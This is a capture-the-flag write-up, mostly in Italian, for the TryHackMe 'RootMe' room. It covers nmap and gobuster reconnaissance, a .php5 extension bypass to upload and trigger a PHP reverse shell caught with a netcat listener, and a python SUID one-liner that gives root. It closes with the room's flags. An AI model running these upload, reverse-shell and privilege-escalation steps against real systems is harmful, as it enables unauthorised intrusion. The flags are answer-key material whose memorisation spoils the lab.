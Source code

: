 # RootMe

_________

# Task 1 - Deploy the machine

  # Deploy the machine
    No answer needed

__________

# Task 2 - Reconnaissance

  # Scan the machine, how many ports are open?

 - sudo nmap -p- -open -sV -sC -sS -A -T4 -Pn 'TARGET-IP'

  ![Istantanea_2023-07-31_21-44-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/8ef7aa85-2e20-4da3-832f-27460e4bff48)

    Answer: 2
  
  # What version of Apache is running?

    Answer: 2.4.29

  # What service is running on port 22?

    Answer: ssh

  # Find directories on the web server using the GoBuster tool.

    No answer needed

  # What is the hidden directory?

  - gobuster dir -u http://TARGET-IP -w /usr/share/wordlists/dirb/big.txt
  
 ![Istantanea_2023-07-31_21-43-04](https://github.com/Manganaccio/Manganaccio/assets/137283468/5cad19e1-68e4-47a2-838a-8474b28c8f20)

 ![Istantanea_2023-07-31_21-48-16](https://github.com/Manganaccio/Manganaccio/assets/137283468/9c5c27fa-66e7-4551-9bfa-d2ebac51d6df)

     Answer: /panel/

__________

  # Task 3 - Getting a shell

  # user.txt

  - Per ottenere la shell sarà necessario fare l'upload del file reverse-shell.php di PentestMonkey, cambiando l'indirizzo IP (quello della macchina attaccante) e il numero della porta
  - prima di eseguire l'upload cambiare l'estensione del file in "php5" perchè il sito non ammette il caricamento di file in "php"

 ![Istantanea_2023-07-31_21-48-48](https://github.com/Manganaccio/Manganaccio/assets/137283468/5f9520c2-c2ea-4655-abb1-870567231212)

  - in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel file reverse-shell)
  - nel browser navigare nella pagina http://TARGET-IP/uploads/ e aprire la reverse-shell caricata in precedenza

 ![Istantanea_2023-07-31_22-16-49](https://github.com/Manganaccio/Manganaccio/assets/137283468/df9f36bc-9f33-4a49-a1e0-f103e1a86703)

  - per trovare la flag user.txt navigare in /var/www

 ![Istantanea_2023-07-31_22-20-53](https://github.com/Manganaccio/Manganaccio/assets/137283468/c9292a59-6c4d-4b69-9232-cab7317020e5)

     Answer: THM{y0u_g0t_a_sh3ll}

_________

# Task 4 - Privilege escalation

# Search for files with SUID permission, which file is weird?

- Selezionare il comando: find / -user root -perm /4000

      Answer: /usr/bin/python

# Find a form to escalate your privileges.

      No answer needed

# root.txt

- Navigare su [GTFOBins](https://gtfobins.github.io/) e nella pagina di python cercare la voce SUID (come suggerito a inizio task)
- nel terminale digitare il comando: /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
- navigare nella cartella root per trovare la flag root.txt o eseguire il comando: cat /root/root.txt

![Istantanea_2023-07-31_22-53-35](https://github.com/Manganaccio/Manganaccio/assets/137283468/ee007094-dd1b-4094-bff5-93938af2d7fa)

      Answer: THM{pr1v1l3g3_3sc4l4t10n}
  

